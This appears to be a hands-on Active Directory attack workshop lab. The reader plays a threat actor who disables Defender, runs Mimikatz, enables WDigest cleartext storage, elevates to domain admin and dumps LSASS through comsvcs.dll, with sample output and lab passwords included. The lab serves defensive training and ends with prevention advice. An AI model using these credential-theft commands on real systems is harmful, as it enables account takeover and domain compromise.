



# Credential Grabbing

In this workshop, you will be acting as the threat actor (TA). To begin, you will be connecting to the "Lighteater" system within the range. This system serves as the external system from which the TA begins their attack.
- Yes, this system is technically on the same network as the rest of the servers. You're pretending as though it's external to the network. So let's play pretend and move along ;).

## Initial Connections

1. Connect to the "Lighteater" host
    - Under the "Connections" list, click the "Lighteater" link:
    
        
    
    - Once the session loads in your browser, you will be at the desktop of the Lighteater machine. Now that you are here, you will initiate the RDP session to the victim network.
    
1. Launch Remote Desktop Connection to begin the attack:
   - Use `mstsc` or simply choose "Start" -> "Remote Desktop Connection"

1. Click "Show Options" at the bottom-left of the window so that you can fill out the destination machine & user details
    
    - Computer: `172.31.24.111`
        - This is the IP address of the `TWORIVERS` host. Though this is an internal IP, you are pretending as though this is how the TA is connecting into the victim environment from the outside.
    - User name: `172.31.24.111\Administrator`
        - Make sure to enter the IP + slash designation before the username.
        
        
    
1. Click "Connect" at the bottom-right to initiate the RDP session

1. When prompted, enter the Administrator user's password:
    
    ```
    Summertimeishere@2023!
    ```
    
    - When prompted, click "Yes" to connect to the remote host.

*CONGRATS!* You are now connected into the victim environment.

Again, we are pretending as though the TA, _you_ in this case, was able to connect to RDP because they obtained the Administrator account's password. This could have been obtained via brute forcing, password spraying, credential stuffing, purchasing from an initial access broker (see [for528.com/iab](https://for528.com/iab) to learn more), etc.

Our focus is not on obtaining initial access, but rather attacks on AD once access has been obtained -- _So let's get to THAT!!_

## Accessing Credentials

Once obtaining access a new environment, TAs will often run initial discovery/enumeration commands to identify their current account context, basic domain information, etc.
- For example, the former Conti ransomware team was found to provide an attack playbook to their affiliate groups called "Cobalt strike MANAULS_v2 Active Directory" that focused on AD-based attacks. The very first step in this manual involved general discovery commands:

    

In this case, the TA has accessed the environment using a local admin account. This account does not have LDAP query permissions. Thus, the TA needs to obtain access to a domain account.

Let's access some credentials!

1. Open PowerShell as Administrator
    
    1. Start menu -> Type `powershell` -> Right-click on "Windows PowerShell" and select "Run as administrator"
        
        1. Do _not_ use "PowerShell 7 (x64)" or double-click "PowerShell 7" on the desktop, as we do not want PS7/Core
    
            
    
    1. Click "Yes" on the UAC prompt

1. Disable Windows Defender (WD):
    
    ```powershell
    Set-MpPreference -DisableRealtimeMonitoring 1
    ```

    **Hey!** Did you do this step? If not, do it. Otherwise you won't be able to run Mimikatz. And yes, this is a beyond common way of disabling WD. Technically, WD is not being disabled, just the real-time protection feature, but this is all you need to do to get away with most shenanigans.

1. Extract Mimikatz:
    
    ```powershell
    cd c:\Users\Public\Desktop\LAB_FILES\assets
    expand-archive mimikatz_trunk.zip
    ```

1. Run mimikatz meow:
    
    ```powershell
    cd .\mimikatz_trunk\x64\
    .\mimikatz.exe
    ```
   
1. At the Mimikatz prompt (`mimikatz #`), run the following commands:
   
    ```
    privilege::debug
    log m.txt
    sekurlsa::logonpasswords
    sekurlsa::wdigest
    ```

    The above commands explained:
    
    1. Set our required privileges
    1. Begin logging to a new file named `m.txt`
        - Log location: `c:\Users\Public\Desktop\LAB_FILES\assets\mimikatz_trunk\x64\m.txt`
    1. List provider credentials
    1. List WDigest-specific credentials
    
    Let's review the contents of the Mimikatz log file!
    
1. Open the `m.txt` log in notepad via:
    
    - Start menu -> type `run` -> click "Run (App)" -> enter:
    
    ```powershell
    notepad c:\Users\Public\Desktop\LAB_FILES\assets\mimikatz_trunk\x64\m.txt
    ```

    As you scroll through the log file, you may note that there are no cleartext credentials for a domain account. Let's change that :).

    We are going to enable cleartext password storage for WDigest. TAs love to do this, though you can (_and should!_) prevent this for elevated accounts by placing them in the [Protected Users Group in AD](https://for528.com/protectedusers). In this environment, that hasn't been done, so let's take advantage of the situation.

1. Close Notepad

1. Launch a separate PowerShell window as admin (**do not close your current Mimikatz prompt**) and run:

    ```powershell    
    reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
    ```
    
    You have just adjusted the WDigest setting to store cleartext passwords in memory. Many orgs do not prevent and/or alert on this activity, so it's a go-to for TAs such as ransomware affiliates. 
    
    Next, you are going to emulate a domain account running a process on the host. **This emulates a real-world environment in which a help desk employee connects to the machine, a task is running via a domain account, a service is running via a domain account, etc.** We will use `runas` to run `notepad.exe`, though in the real world this account may just connect remotely to run whatever process.

1. In your current PS window, execute Notepad as the `WHEEL\Administrator` user:
    
    ```
    runas /user:wheel\Administrator notepad.exe
    ```
    
    - You will be prompted to `Enter the password for wheel\Administrator:`, which is:
        
        ```
        12qwaszx!@QWASZX
        ```

    _Minimize the Notepad process window_ -- **DO NOT close this window**

1. Back in Mimikatz, run the following command:
    
    ```
    sekurlsa::wdigest
    ```

    Either scroll up in the Mimikatz window buffer or once again load the `m.log` file via `notepad c:\Users\Public\Desktop\LAB_FILES\assets\mimikatz_trunk\x64\m.txt`.

    You will now see a cleartext password for the `WHEEL\Administrator` account:
    
    ```
    Authentication Id : 0 ; 6908489 (00000000:00696a49)
    Session           : Interactive from 0
    User Name         : Administrator
    Domain            : WHEEL
    Logon Server      : TARVALON
    Logon Time        : 8/6/2023 6:42:52 PM
    SID               : S-1-5-21-3772637088-1800343157-2363924200-500
        wdigest :	
         * Username : Administrator
         * Domain   : WHEEL
         * Password : 12qwaszx!@QWASZX
    ```

    Sure, we used `runas` and entered this password. We were simply emulating the fact that a domain account might be running a process on the host, which is a _very_ common situation.

1. Elevate your access to the domain admin account in the Mimikatz prompt via:
    
    ```
    token::elevate /domainadmin
    ```
    
    Expected output:
    
    ```
    mimikatz # token::elevate /domainadmin
    Token Id  : 0
    User name :
    SID name  : WHEEL\Domain Admins

    5864    {0;00696a49} 3 D 7045543        WHEEL\Administrator     S-1-5-21-3772637088-1800343157-2363924200-500   (16g,24p)       Primary
     -> Impersonated !
     * Process Token : {0;0046d32c} 3 D 6679841     TWORIVERS\Administrator S-1-5-21-3172349730-3661535773-235960969-500    (14g,24p)       Primary
     * Thread Token  : {0;00696a49} 3 D 7413640     WHEEL\Administrator     S-1-5-21-3772637088-1800343157-2363924200-500   (16g,24p)       Impersonation (Delegation)
    ```

**CONGRATS!! You are not elevated to a domain admin account!**

More importantly, you now have the cleartext password of the domain admin account, `WHEEL\Administrator`, which is `12qwaszx!@QWASZX`.

## BONUS 1: LOLBIN Method

The Local Security Authority Subsystem Service (LSASS) process, `lsass.exe`, is essentially the gatekeeper in terms of security and credential checks within Windows. Credentials that live in memory typically reside in the memory pages allocated to this process. As such, TAs often like to dump LSASS memory in order to analyze it offline. For example, the LSASS process space can be dumped and then loaded in Mimikatz. While we are not covering this officially in the workshop, we wanted to provide an example that you can follow when you'd like to learn to on your own.

Many methods exist to dump LSASS, but we'll be covering a method that uses a LOLBIN method known as MiniDump, a function included in the `comsvcs.dll` library.

1. Beginning in an admin-elevated PowerShell console, obtain the process ID (PID) for the `lsass.exe` process:

    ```
    get-process lsass
    ```

    Example output:
    
    ```
    Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
    -------  ------    -----      -----     ------     --  -- -----------
       1850      30    10916      24148              1372   0 lsass
    ```

    **Note that the number listed in the "Id" column, the PID, will most likely be different for you.** Take note of the PID returned when you run your command, as you'll need it in the next step.

1. Ensuring you are still in an elevated prompt, use RunDLL to load the exported function "MiniDump" from the `comsvcs.dll` library. Ensure to replace `[PID]` with the PID of `lsass.exe` running on your system, which you obtained in the previous step.
    
    ```
    rundll32.exe c:\Windows\system32\comsvcs.dll, MiniDump [PID] C:\Windows\temp\mini.dump full
    ```
    
    - For example, in our test enviornment, the PID for LSASS was `1372`. Thus, we would want to run:
    
        ```
        rundll32.exe c:\Windows\system32\comsvcs.dll, MiniDump 1372 C:\windows\temp\lsass.dmp full
        ```

1. In Mimikatz, and this can be done "offline", load the LSASS dump you obtained:
    
    ```
    mimikatz # sekurlsa::minidump lsass.dmp
    ```
    
    Example output if you run in the range (i.e. not offline, but rather point Mimikatz to the file you dumped):
    
    ```
    sekurlsa::minidump C:\windows\temp\lsass.dmp
    
    Switch to MINIDUMP : 'C:\windows\temp\lsass.dmp'
    ```

1. Now that you have loaded the dumped LSASS memory space, you can now run Mimikatz against the dump file:

    ```
    mimikatz # sekurlsa::logonPasswords full
    ```

----

## BONUS 2: Weak Passwords

That Administrator account password (`Summerishere@2023!`) is weak, right? You might be surprised how often this type of password is found in large-scale environments. Back in 2015/16, the Iranian-based APT33 group capitalized on the prevalence of passwords that include the season or month + year in attacks against the US energy sector. These attacks proved highly successful, yet nearly a decade later, we still see these passwords in use in organizations around the world.

For a daily-updated list of insecure passwords that follow this schema, i.e. passwords that you and your users _should avoid at all costs_, see:
[weakpasswords.net](http://weakpasswords.net/).

### Prevention

If you use Azure AD, you can use [Azure AD Password Protection](https://for528.com/azure-pass) to deny your users the ability to include strings such as months, seaons, and years in their passwords.

If you are fully on-prem, you can begin by working with the [passfilt.dll options](https://for528.com/passfilt). This is a beginning step. If you want tighter control over passwords, _which you do_, you can look into commercial replacement for `passfilt.dll` or better yet review the open source [PassFiltEx project](https://for528.com/passfiltex).
